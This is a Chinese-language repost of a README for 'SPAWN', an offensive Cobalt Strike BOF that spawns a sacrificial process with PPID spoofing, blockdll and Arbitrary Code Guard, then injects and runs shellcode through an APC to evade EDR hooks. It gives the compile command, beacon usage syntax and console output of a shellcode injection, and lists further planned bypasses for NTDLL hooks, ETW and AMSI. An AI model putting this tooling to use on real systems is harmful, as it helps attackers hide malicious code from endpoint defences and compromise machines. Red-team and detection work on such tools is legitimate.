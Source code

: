 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/qEBVvWBnN004mJlLn2WgaA)

        Cobalt Strike BOF 产生一个牺牲进程，用 shellcode 注入它，并执行有效载荷。旨在通过使用任意代码保护 (ACG)、BlockDll 和 PPID 欺骗生成牺牲进程来逃避 EDR/UserLand 钩子。

功能

*   使用任意代码保护 (ACG) 生成牺牲进程，以防止 EDR 解决方案挂接到牺牲进程 DLL 中。
    
*   注入并执行 shellcode。
    

来自 ACG Protected Process 的 Popin' Calc

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV3Jw7ibMfs6QuXkibpHLeXicVn7ls4hXwNjqomHaiasN2wcFG8tKITxRtku2h8cNHnOCjkCeBeQ80EElg/640?wx_fmt=png)

```
beacon> spawn notepad.exe 6248 /Users/bobby.cooke/git/boku7/SPAWN/popCalc.bin
[*] SPAWN (Bobby Cooke//SpiderLabs|@0xBoku|github.com/boku7)
[+] Opened handle 0x534 to process 6248(PID)
[+] Spawned process: notepad.exe | PID: 8404 | PPID: 6248
[+] Allocated RE memory in remote process 8404 (PID) at: 0x00000177A72C0000
[+] Wrote 280 bytes to memory in remote process 8404 (PID) at 0x00000177A72C0000
[+] APC queued for main thread of 8404 (PID) to shellcode address 0x00000177A72C0000
```

*   CNA Agressor 脚本接口
    

```
beacon> help
    spawn                     Spawn a process with a spoofed PPID and blockDll
beacon> help spawn
Synopsis: spawn /path/to/exe PPID
beacon> ps
8264  5536  OneDrive.exe                 x86   1           DESKTOP-KOSR2NO\boku 
beacon> spawn cmd.exe 8264
[*] SPAWN (@0xBoku|github.com/boku7)
Opened handle 0x634 to process 8264(PID)
Success! Spawned process: cmd.exe | PID: 5384 | PPID: 8264
```

*   PPID 欺骗
    
*   Cobalt Strike`blockdll`功能
    

### 使用 x64 MinGW 编译：

```
x86_64-w64-mingw32-gcc -c spawn.x64.c -o spawn.x64.o
```

### 从 Cobalt Strike Beacon 控制台运行

*   编译后将 spawn.cna 脚本导入 Cobalt Strikes Script Manager
    

```
beacon> spawn /path/to/exe PPID /local/path/to/shellcode.bin
```

`cmd.exe`进程与 PPID 一起生成为`OneDrive.exe`

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV3Jw7ibMfs6QuXkibpHLeXicVnmUNw2j7rFXx9BS0JGp2Ys6ibp8Q77Dl8DTDpzzS8zO6NyspSZMs3rgQ/640?wx_fmt=png)

*   我们看到了父子进程关系，并且我们生成的进程是用 `Signatures restricted (Microsoft only)`
    
*   这`Signatures restricted (Microsoft only)`使得未由 Microsoft 签名的 DLL 无法加载到我们生成的进程中
    

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV3Jw7ibMfs6QuXkibpHLeXicVnZAiaibGsNibvsmBRd1T3iahELtFAKZYHeHI2NtiapH2PVlGAMTeu6wk5dzA/640?wx_fmt=png)

构建远程进程修补的不同方法

*   NTDLL.DLL 远程进程脱钩
    
*   ETW 远程进程修补 / 绕过
    
*   AMSI 远程进程修补 / 绕过
    
*   CLR 加载和 .Net 程序集注入
    

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV3Jw7ibMfs6QuXkibpHLeXicVnGGRzy6Hxd26tQTFTE8gbF7qvpLmAsIOb2cibNdT6Kp9eo0VkFKQJ5PQ/640?wx_fmt=png)

项目地址：

https://github.com/boku7/spawn
